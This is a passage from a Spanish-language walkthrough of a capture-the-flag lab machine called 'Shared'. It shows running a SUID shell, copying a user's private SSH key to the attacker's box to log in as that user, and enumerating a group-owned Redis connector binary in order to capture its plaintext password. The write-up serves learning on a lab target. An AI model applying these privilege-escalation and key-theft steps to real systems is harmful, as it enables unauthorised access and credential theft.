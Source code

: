 Después de ejecutar el script y esperar un minuto, nuestro shell SUID debería estar en ``/tmp/dan_smith_sh{:.filepath}.``

```bash
# james_mason@shared.htb (SSH)
/tmp/dan_smith_sh -p
```
# Privilege Escalation

La primera bandera se encuentra en ``/home/dan_smith/user.txt{:.filepath}``
Stabilizing Shell

Copiemos el contenido de ``/home/dan_smith/.ssh/id_rsa{:.filepath}`` a la máquina atacante y utilicémoslo para iniciar sesión como dan_smith a través de SSH para obtener una shell más estable.

```bash
# mhil4ne@kali
chmod 600 dan_smith_id_rsa
ssh -i dan_smith_id_rsa "dan_smith@$rhost"
```

Al ejecutar el comando id, nos enteramos de que nuestro usuario actual forma parte del grupo sysadmin. Veamos a qué tiene acceso especial este grupo.

```bash
# dan_smith@shared.htb (SSH)
find / -group sysadmin 2>/dev/null
```

```bash
/usr/local/bin/redis_connector_dev
```

Se devuelve un archivo en ``/usr/local/bin/redis_connector_dev{:.filepath}``. Este archivo probablemente tiene algo que ver con una solución de almacenamiento de datos clave-valor conocida como Redis. Cuando ejecutamos ``/usr/local/bin/redis_connector_dev{:.filepath}``, imprime un mensaje de registro que dice «Logging to redis instance using password» y lo que parece la salida de la consulta INFO Server redis.

## Redis

Recopilemos información básica sobre el archivo y veamos qué ocurre entre bastidores.

```bash
# dan_smith@shared.htb (SSH)
file /usr/local/bin/redis_connector_dev|tr ',' '\n'
```

Basándonos en la salida del comando file, podemos observar algunas cosas sobre el archivo:

- Es un ejecutable ELF x86-64
- se ha compilado con un compilador Go (de ahí el Go BuildID)
- No está despojado

Dado que el protocolo Redis RESP funciona en texto plano, podríamos capturar la contraseña. En primer lugar, copiemos el archivo en la máquina del atacante.
